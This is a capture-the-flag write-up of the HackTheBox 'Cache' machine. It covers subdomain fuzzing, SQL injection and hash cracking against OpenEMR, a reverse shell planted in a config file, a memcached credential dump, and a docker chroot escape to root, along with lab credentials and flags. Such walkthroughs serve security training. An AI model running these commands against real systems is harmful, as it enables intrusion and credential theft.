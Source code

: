 # Cache

Author: Ewaël

**Cache** is a medium HackTheBox box by ASHacker.

`nmap -sC -sV -oN nmap 10.10.10.188 -v -A` shows ports 22 and 80 are open. Let's start with the website.

![site](imgs/site.png)

Lots of text on the main page, could be useful later if I need a wordlist, but let's focus on the login page.

![login](imgs/login.png)

The verification is client side, so I have access to the source code `functionality.js`:

```javascript
$(function(){

    var error_correctPassword = false;
    var error_username = false;

    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();


        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });

});
```

I login with `ash:H@v3_fun` creds but this really looks like a rabbit hole because there is nothing interesting and it was way too easy. Let's explore an other page:

![author](imgs/author.png)

This `cache.htb` link leads to a 404 error page which is weird considering it's the name of the box. Let's try to replace the `cache` with every words from the main page as they all refer to hacking stuff. I do this with `cewl http://10.10.10.188/index.html > words` and I start my attack with the burpsuite intruder first before switching to wfuzz because of how terribly slow this tool is:

```
$ wfuzz -H "Host: FUZZ.htb" -w words --hh=8193 --hc=400 http://10.10.10.188
...
hms
...
```

Nice! `hms.htb` seems to be the real hostname as it redirects to a 404 page `/interface/login/login.php?site=default`. I start wfuzz again on the `site` parameter before understanding I have to replace `10.10.10.188` in the redirection link too:

![openemr](imgs/openemr.png)

*Note: the page is completly broken without adding `10.10.10.188 [tab] hms.htb` in `/etc/hosts`*

Googling about how to bypass this login page I find [https://www.youtube.com/watch?v=DJSQ8Pk_7hc](https://www.youtube.com/watch?v=DJSQ8Pk_7hc) that I follow to have the request file I'll use with sqlmap:

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=oio3bepvg5ioqs0qvt2gdae86c; PHPSESSID=jd33efscg9m8sk8hbu44lrrjmg
Upgrade-Insecure-Requests: 1
```

Digging with sqlmap I find credentitials for the login page:

```
username: openemr_admin
password: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
salt: $2a$05$l2sTLIG6GTBeyBf7TAKL6A$
```

Let john crack this for me: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`. Seems that `xxxxxx` is the password for `openemr_admin`, let's login:

![admin](imgs/admin.png)

Now that I can log, I should be able to use `OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution | php/webapps/45161.py` but I can't make it work. Let's upload a reverse shell myself. I change `config.php` in [http://hms.htb/interface/main/tabs/main.php](http://hms.htb/interface/main/tabs/main.php) with the reverse shell because this code must be executed everytime the page is loaded, and I visit the default page after setting up my listener to have my shell as `www-data`.

## Privilege escalation

To begin with, I use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to be able to use `su ash` with the password I found at the beginning: `H@v3_fun`. It works and I have my user flag:

`23dcde97743a826b01cdfccc057f7cba`

Let's try to be `luffy` now as he is the other user and I am pretty sure this is a required step for the root flag. I start with some enumeration which leads me to useless hashes in sql files, then I try to see if there are local services running on with `netstat -tulpn`. Indeed port 11211 is listening and after reading about it I learn the service is called `memcached` which is the box name. Let's try this with telnet because netcat is very bad at this.

```
> stats items
...
> stats cachedump 0 1
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
> get user
luffy
> get passwd
0n3_p1ec3
```

`su luffy` with `0n3_p1ec3`, and I am now `luffy`. Doing some enumeration again I see there is a docker I can now use as `luffy`:

```
$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        8 months ago        64.2MB
```

Let's use [GTFOBins](https://gtfobins.github.io) to see what's possible: `docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh`. Success! I have my root shell.

`5e6955910e3234c843c3d1f12a89ea71`
